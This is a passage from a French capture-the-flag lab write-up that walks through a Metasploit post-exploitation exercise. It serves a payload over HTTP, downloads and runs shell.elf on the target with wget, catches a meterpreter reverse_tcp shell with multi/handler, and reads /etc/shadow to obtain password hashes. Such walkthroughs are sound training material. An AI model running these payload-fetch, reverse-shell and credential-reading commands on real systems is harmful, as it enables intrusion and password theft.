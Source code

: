 ```bash
python3 -m http.server 9000
```
{: .nolineno }

Téléchargement du payload sur la machine cible via SSH :

```bash
wget http://10.10.138.232:9000/shell.elf
chmod +x shell.elf
```
{: .nolineno }

---

**Étape 4 : Configuration du handler**

Dans Metasploit, configuration d'un handler pour recevoir la connexion inverse :

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.43.133
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > run
```
{: .nolineno }

---

**Étape 5 : Exécution du payload**

Sur la machine cible via SSH :

```bash
./shell.elf
```
{: .nolineno }

Une session Meterpreter s'ouvre automatiquement sur la machine attaquante.

> Le module `exploit/multi/handler` est essentiel pour recevoir les connexions inverses de n'importe quel type de payload.
{: .prompt-tip }

---

#### Question finale

**Question : What is the other user's password hash?**

Une fois la session Meterpreter établie, lecture du fichier `/etc/shadow` contenant les hashes des mots de passe :

```bash
meterpreter > cat /etc/shadow
```
{: .nolineno }

**Extrait du résultat :**
